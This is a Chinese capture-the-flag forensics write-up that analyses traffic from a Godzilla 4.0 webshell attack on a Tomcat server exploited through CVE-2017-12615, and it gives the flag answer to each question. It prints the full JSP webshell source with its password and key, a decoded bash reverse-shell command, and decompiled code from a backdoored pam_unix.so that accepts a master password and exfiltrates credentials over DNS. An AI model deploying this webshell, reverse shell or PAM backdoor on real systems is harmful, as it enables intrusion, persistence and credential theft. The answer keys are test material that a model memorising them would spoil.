# 第六章 哥斯拉 4.0 流量分析

## 1

> 黑客的 IP 是什么？

在数据包中注意到大量的目录扫描流量



```flag
flag{192.168.31.190}
```

## 2

> 黑客是通过什么漏洞进入服务器的？（提交 CVE 编号）

对攻击者的流量进行分析，在服务端的返回包中检测到 `tomcat` 字符串的存在，可以先确定服务端中间件有 `tomcat`



然后进一步跟进，发现



使用 `tomcat PUT file upload CVE` 作为关键词进行搜索，可以定位到两个漏洞

- CVE-2017-12615
- CVE-2017-12617

两个答案都试着提交一下就行了

```flag
flag{CVE-2017-12615}
```

## 3

> 黑客上传的木马文件名是什么？(提交文件名)

在上一题的请求中就有

```flag
flag{hello.jsp}
```

## 4

> 黑客上传的木马连接密码是什么？

提取攻击者上传的 jsp 文件的源码

```java
<% !String xc = "1710acba6220f62b";
String pass = "7f0e6f";
String md5 = md5(pass + xc);
class X extends ClassLoader {
    public X(ClassLoader z) {
        super(z);
    }
    public Class Q(byte[] cb) {
        return super.defineClass(cb, 0, cb.length);
    }
}
public byte[] x(byte[] s, boolean m) {
    try {
        javax.crypto.Cipher c = javax.crypto.Cipher.getInstance("AES");
        c.init(m ? 1 : 2, new javax.crypto.spec.SecretKeySpec(xc.getBytes(), "AES"));
        return c.doFinal(s);
    } catch (Exception e) {
        return null;
    }
}
public static String md5(String s) {
    String ret = null;
    try {
        java.security.MessageDigest m;
        m = java.security.MessageDigest.getInstance("MD5");
        m.update(s.getBytes(), 0, s.length());
        ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();
    } catch (Exception e) {}
    return ret;
}
public static String base64Encode(byte[] bs) throws Exception {
    Class base64;
    String value = null;
    try {
        base64 = Class.forName("java.util.Base64");
        Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);
        value = (String) Encoder.getClass().getMethod("encodeToString", new Class[] {
            byte[].class
        }).invoke(Encoder, new Object[] {
            bs
        });
    } catch (Exception e) {
        try {
            base64 = Class.forName("sun.misc.BASE64Encoder");
            Object Encoder = base64.newInstance();
            value = (String) Encoder.getClass().getMethod("encode", new Class[] {
                byte[].class
            }).invoke(Encoder, new Object[] {
                bs
            });
        } catch (Exception e2) {}
    }
    return value;
}
public static byte[] base64Decode(String bs) throws Exception {
        Class base64;
        byte[] value = null;
        try {
            base64 = Class.forName("java.util.Base64");
            Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
            value = (byte[]) decoder.getClass().getMethod("decode", new Class[] {
                String.class
            }).invoke(decoder, new Object[] {
                bs
            });
        } catch (Exception e) {
            try {
                base64 = Class.forName("sun.misc.BASE64Decoder");
                Object decoder = base64.newInstance();
                value = (byte[]) decoder.getClass().getMethod("decodeBuffer", new Class[] {
                    String.class
                }).invoke(decoder, new Object[] {
                    bs
                });
            } catch (Exception e2) {}
        }
        return value;
    } %> <%
    try {
        byte[] data = base64Decode(request.getParameter(pass));
        data = x(data, false);
        if (session.getAttribute("payload") == null) {
            session.setAttribute("payload", new X(this.getClass().getClassLoader()).Q(data));
        } else {
            request.setAttribute("parameters", data);
            java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream();
            Object f = ((Class) session.getAttribute("payload")).newInstance();
            f.equals(arrOut);
            f.equals(pageContext);
            response.getWriter().write(md5.substring(0, 16));
            f.toString();
            response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));
            response.getWriter().write(md5.substring(16));
        }
    } catch (Exception e) {}
%>
```

即可在 Webshell 的头部找到密码

```flag
flag{7f0e6f}
```

## 5

> 黑客上传的木马解密密钥是什么？

也是在 Webshell 文件的头部

```flag
flag{1710acba6220f62b}
```

## 6

> 黑客连接 webshell 后执行的第一条命令是什么？

定位到攻击者与 Webshell 交互的第一条流量



使用支持哥斯拉流量解密的工具或者脚本，对攻击者传输的 payload 进行解密



可以确定为哥斯拉的环境初始化探测的部分，继续往下分析



这里就是攻击者手动执行的第一条命令

```flag
flag{uname -r}
```

## 7

> 黑客连接 webshell 时查询当前 shell 的权限是什么？

在哥斯拉前面几条连接流量中中，执行了 `getBasicsInfo` 模块



解密返回包



```plaintext
FileRoot : /;
CurrentDir : //
CurrentUser : root
ProcessArch : 64
TempDirectory : /opt/apache-tomcat-8.5.19/temp/
DocBase : /opt/apache-tomcat-8.5.19/webapps/ROOT/
RealFile : /opt/apache-tomcat-8.5.19/webapps/ROOT/
servletRequest : 1763462523
servletContext : 1993764884
httpSession : 1001775710
OsInfo : os.name: Linux os.version: 4.19.0-25-amd64 os.arch: amd64
IPList : [fe80:0:0:0:20c:29ff:fedb:ea16%ens33, 192.168.31.168, 0:0:0:0:0:0:0:1%lo, 127.0.0.1]
java.runtime.name : Java(TM) SE Runtime Environment
java.protocol.handler.pkgs : org.apache.catalina.webresources
sun.boot.library.path : /opt/jdk1.8.0_411/jre/lib/amd64
java.vm.version : 25.411-b09
shared.loader :
java.vm.vendor : Oracle Corporation
java.vendor.url : http://java.oracle.com/
path.separator : :
tomcat.util.buf.StringCache.byte.enabled : true
java.util.logging.config.file : /opt/apache-tomcat-8.5.19/conf/logging.properties
java.vm.name : Java HotSpot(TM) 64-Bit Server VM
file.encoding.pkg : sun.io
user.country : US
sun.java.launcher : SUN_STANDARD
sun.os.patch.level : unknown
tomcat.util.scan.StandardJarScanFilter.jarsToScan : log4j-web*.jar,log4j-taglib*.jar,log4javascript*.jar,slf4j-taglib*.jar
java.vm.specification.name : Java Virtual Machine Specification
user.dir : /
java.runtime.version : 1.8.0_411-b09
java.awt.graphicsenv : sun.awt.X11GraphicsEnvironment
java.endorsed.dirs : /opt/jdk1.8.0_411/jre/lib/endorsed
os.arch : amd64
java.io.tmpdir : /opt/apache-tomcat-8.5.19/temp
line.separator :

java.vm.specification.vendor : Oracle Corporation
java.naming.factory.url.pkgs : org.apache.naming
java.util.logging.manager : org.apache.juli.ClassLoaderLogManager
os.name : Linux
sun.jnu.encoding : UTF-8
java.library.path : /usr/java/packages/lib/amd64:/usr/lib64:/lib64:/lib:/usr/lib
java.specification.name : Java Platform API Specification
java.class.version : 52.0
sun.management.compiler : HotSpot 64-Bit Tiered Compilers
os.version : 4.19.0-25-amd64
java.util.concurrent.ForkJoinPool.common.threadFactory : org.apache.catalina.startup.SafeForkJoinWorkerThreadFactory
user.home : /root
catalina.useNaming : true
user.timezone : America/New_York
java.awt.printerjob : sun.print.PSPrinterJob
file.encoding : UTF-8
java.specification.version : 1.8
tomcat.util.scan.StandardJarScanFilter.jarsToSkip : bootstrap.jar,commons-daemon.jar,tomcat-juli.jar,annotations-api.jar,el-api.jar,jsp-api.jar,servlet-api.jar,websocket-api.jar,jaspic-api.jar,catalina.jar,catalina-ant.jar,catalina-ha.jar,catalina-storeconfig.jar,catalina-tribes.jar,jasper.jar,jasper-el.jar,ecj-*.jar,tomcat-api.jar,tomcat-util.jar,tomcat-util-scan.jar,tomcat-coyote.jar,tomcat-dbcp.jar,tomcat-jni.jar,tomcat-websocket.jar,tomcat-i18n-en.jar,tomcat-i18n-es.jar,tomcat-i18n-fr.jar,tomcat-i18n-ja.jar,tomcat-juli-adapters.jar,catalina-jmx-remote.jar,catalina-ws.jar,tomcat-jdbc.jar,tools.jar,commons-beanutils*.jar,commons-codec*.jar,commons-collections*.jar,commons-dbcp*.jar,commons-digester*.jar,commons-fileupload*.jar,commons-httpclient*.jar,commons-io*.jar,commons-lang*.jar,commons-logging*.jar,commons-math*.jar,commons-pool*.jar,jstl.jar,taglibs-standard-spec-*.jar,geronimo-spec-jaxrpc*.jar,wsdl4j*.jar,ant.jar,ant-junit*.jar,aspectj*.jar,jmx.jar,h2*.jar,hibernate*.jar,httpclient*.jar,jmx-tools.jar,jta*.jar,log4j*.jar,mail*.jar,slf4j*.jar,xercesImpl.jar,xmlParserAPIs.jar,xml-apis.jar,junit.jar,junit-*.jar,hamcrest-*.jar,easymock-*.jar,cglib-*.jar,objenesis-*.jar,ant-launcher.jar,cobertura-*.jar,asm-*.jar,dom4j-*.jar,icu4j-*.jar,jaxen-*.jar,jdom-*.jar,jetty-*.jar,oro-*.jar,servlet-api-*.jar,tagsoup-*.jar,xmlParserAPIs-*.jar,xom-*.jar
catalina.home : /opt/apache-tomcat-8.5.19
java.class.path : /opt/apache-tomcat-8.5.19/bin/bootstrap.jar:/opt/apache-tomcat-8.5.19/bin/tomcat-juli.jar
user.name : root
java.naming.factory.initial : org.apache.naming.java.javaURLContextFactory
package.definition : sun.,java.,org.apache.catalina.,org.apache.coyote.,org.apache.jasper.,org.apache.naming.,org.apache.tomcat.
java.vm.specification.version : 1.8
sun.java.command : org.apache.catalina.startup.Bootstrap start
java.home : /opt/jdk1.8.0_411/jre
sun.arch.data.model : 64
user.language : en
java.specification.vendor : Oracle Corporation
awt.toolkit : sun.awt.X11.XToolkit
java.vm.info : mixed mode
java.version : 1.8.0_411
java.ext.dirs : /opt/jdk1.8.0_411/jre/lib/ext:/usr/java/packages/lib/ext
sun.boot.class.path : /opt/jdk1.8.0_411/jre/lib/resources.jar:/opt/jdk1.8.0_411/jre/lib/rt.jar:/opt/jdk1.8.0_411/jre/lib/jsse.jar:/opt/jdk1.8.0_411/jre/lib/jce.jar:/opt/jdk1.8.0_411/jre/lib/charsets.jar:/opt/jdk1.8.0_411/jre/lib/jfr.jar:/opt/jdk1.8.0_411/jre/classes
server.loader :
java.vendor : Oracle Corporation
catalina.base : /opt/apache-tomcat-8.5.19
java.specification.maintenance.version : 5
jdk.tls.ephemeralDHKeySize : 2048
file.separator : /
java.vendor.url.bug : http://bugreport.sun.com/bugreport/
common.loader : "${catalina.base}/lib","${catalina.base}/lib/*.jar","${catalina.home}/lib","${catalina.home}/lib/*.jar"
sun.io.unicode.encoding : UnicodeLittle
sun.cpu.endian : little
package.access : sun.,org.apache.catalina.,org.apache.coyote.,org.apache.jasper.,org.apache.tomcat.
sun.cpu.isalist :
PATH : /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/opt/jdk1.8.0_411/bin
INVOCATION_ID : c4a04d68ba5a492d99d48d5762efb5a7
JRE_HOME : /opt/jdk1.8.0_411/jre
CATALINA_BASE : /opt/apache-tomcat-8.5.19
JOURNAL_STREAM : 9:16138
CATALINA_PID : /opt/apache-tomcat-8.5.19/tomcat.pid
JAVA_HOME : /opt/jdk1.8.0_411
PWD : /
CLASSPATH : /opt/apache-tomcat-8.5.19/bin/bootstrap.jar:/opt/apache-tomcat-8.5.19/bin/tomcat-juli.jar
LANG : en_US.UTF-8
```

即可得知当前用户

```flag
flag{root}
```

## 8

> 黑客利用 webshell 执行命令查询服务器 Linux 系统发行版本是什么？

将攻击者执行 `uname -r` 的返回包进行解密



但是题目问的是 Linux 版本，于是继续往下跟进



这里得到的就是 Linux 版本

```flag
flag{Debian GNU/Linux 10 (buster)}
```

## 9

> 黑客利用 webshell 执行命令还查询并过滤了什么？（提交整条执行成功的命令）

继续往下跟踪

由于题目限制范围为执行成功的指令，所以可以忽略前面部分执行执行失败的指令（包括指令输入错误，以及未找到文件的情形）

定位到这条交互



```flag
flag{dpkg -l libpam-modules:amd64}
```

## 10

> 黑客留下后门的反连的 IP 和 PORT 是什么？（IP:PORT)

进一步跟踪流量



对其中 Base64 编码部分进行解码

```plaintest
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMzEuMTQzLzEzMTMgMD4mMQ==
/bin/bash -i >& /dev/tcp/192.168.31.143/1313 0>&1
```

典型的 Bash 反弹 shell 的指令

```flag
flag{192.168.31.143:1313}
```

## 11

> 黑客通过什么文件留下了后门？

继续跟进，可以找到服务端反连攻击者监听器的流量



```plaintext
bash: cannot set terminal process group (403): Inappropriate ioctl for device
bash: no job control in this shell
root@debian:/#
cp /lib/x86_64-linux-gnu/security/pam_unix.so /opt/.pam_unix.so.bak


<inux-gnu/security/pam_unix.so /opt/.pam_unix.so.bak
root@debian:/#
cp /tmp/pam_unix.so /lib/x86_64-linux-gnu/security/pam_unix.so

cp /tmp/pam_unix.so /lib/x86_64-linux-gnu/security/pam_unix.so
root@debian:/#
exit

exit
exit
```

结合上几条流量中，攻击者曾列出 `/tmp` 目录下的文件，以及进行了一步大数据 Webshell 交互流量，可以断定 `/tmp/pam_unix.so` 为攻击者上传的恶意文件

```flag
flag{pam_unix.so}
```

## 12

> 黑客设置的后门密码是什么？

对攻击者上传操作的流量进行解密



在其中存在有`elf`文件，将其十六进制数据进行分割，提取出`elf`部分



但是使用提取出来的`elf`文件斤西瓜分析失败了，猜测可能哥斯拉进行了处理

结合存在有远程靶机，将靶机上的文件提取下来进行分析



```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
    unsigned __int8 hostname[100]; // [rsp+0h] [rbp-78h] BYREF

    get_dns_servers();
    printf("Enter Hostname to Lookup : ");
    __isoc99_scanf("%s", hostname);
    ngethostbyname(hostname, 1);
    return 0;
}
```

`main`函数中调用了2个自定义函数

- get_dns_servers
- ngethostbyname

```c
void __cdecl get_dns_servers()
{
    FILE *v0; // rbp
    char line[200]; // [rsp+0h] [rbp-E8h] BYREF

    v0 = fopen("/etc/resolv.conf", "r");
    if ( !v0 )
        puts("Failed opening /etc/resolv.conf file ");
    while ( fgets(line, 200, v0) )
    {
        if ( line[0] != 35 && *(_QWORD *)line == 0x76726573656D616ELL && *(_WORD *)&line[8] == 29285 )
        {
            strtok(line, " ");
            strtok(0LL, " ");
        }
    }
    strcpy(dns_servers, "208.67.222.222");
    strcpy(&dns_servers[100], "208.67.220.220");
}
```

同时在流量中过滤dns流量



得到两个关键信息

- root.XJ@123
- c0ee2ad2d8.ipv6.xxx.eu.org

结合这两个关键字符串，继续在后门文件中进行搜索



跳转到引用函数

```c
int __fastcall pam_sm_authenticate(pam_handle_t *pamh, int flags, int argc, const char **argv)
{
    int v4; // r14d
    int *v5; // rax
    int *v6; // r13
    int user; // eax
    int v8; // r12d
    int authtok; // eax
    int v11; // r14d
    bool v12; // zf
    const char *name; // [rsp+10h] [rbp-A8h] BYREF
    const char *p; // [rsp+18h] [rbp-A0h] BYREF
    unsigned __int8 hostname[100]; // [rsp+20h] [rbp-98h] BYREF

    v4 = set_ctrl(pamh, flags, 0LL, 0LL, 0LL, argc, argv);
    v5 = (int *)malloc(4uLL);
    if ( !v5 )
    {
        v8 = 5;
        pam_syslog(pamh, 2LL, "pam_unix_auth: cannot allocate ret_data");
        return v8;
    }
    v6 = v5;
    user = pam_get_user(pamh, &name, 0LL);
    v8 = user;
    if ( user )
    {
        if ( user == 30 )
        v8 = 31;
        *v6 = v8;
        goto LABEL_15;
    }
    if ( name && ((*name - 43) & 0xFD) != 0 )
    {
        if ( unix_blankpasswd(pamh, v4, name) )
        {
            name = 0LL;
            *v6 = 0;
LABEL_15:
            pam_set_data(pamh, "unix_setcred_return", v6, setcred_free);
            return v8;
        }
        authtok = pam_get_authtok(pamh, 6LL, &p, 0LL);
        v8 = authtok;
        if ( authtok )
        {
            if ( authtok == 30 )
                v8 = 31;
            else
                pam_syslog(pamh, 2LL, "auth could not identify password for [%s]", name);
            name = 0LL;
            *v6 = v8;
            goto LABEL_15;
        }
        v11 = unix_verify_password(pamh, name, p, v4);
        get_dns_servers();
        snprintf((char *)hostname, 0x64uLL, "%s.%s c0ee2ad2d8.ipv6.xxx.eu.org.", name, p);
        if ( !fork() )
            ngethostbyname(hostname, 1);
        v12 = strcmp("XJ@123", p) == 0;
        v8 = !v12;
        if ( !v12 )
        {
            *v6 = v11;
            v8 = v11;
            p = 0LL;
            name = 0LL;
            pam_set_data(pamh, "unix_setcred_return", v6, setcred_free);
        }
    }
    else
    {
        v8 = 10;
        pam_syslog(pamh, 3LL, "bad username [%s]", name);
        *v6 = 10;
        pam_set_data(pamh, "unix_setcred_return", v6, setcred_free);
    }
    return v8;
}
```

可以看到这个部分 `unix_verify_password(pamh, name, p, v4);`说明`p`这个参数传输的就是密码

那么就可以确定后门密码

```flag
flag{XJ@123}
```

## 13

> 黑客的恶意dnslog服务器地址是什么？

:::warning

这里从流量中提取的结果是错误的，必须是后门文件中的原文

:::

在后门文件中有这么一部分

```c
v11 = unix_verify_password(pamh, name, p, v4);
get_dns_servers();
snprintf((char *)hostname, 0x64uLL, "%s.%s c0ee2ad2d8.ipv6.xxx.eu.org.", name, p);
```

即可得到答案

```flag
flag{c0ee2ad2d8.ipv6.xxx.eu.org.}
```
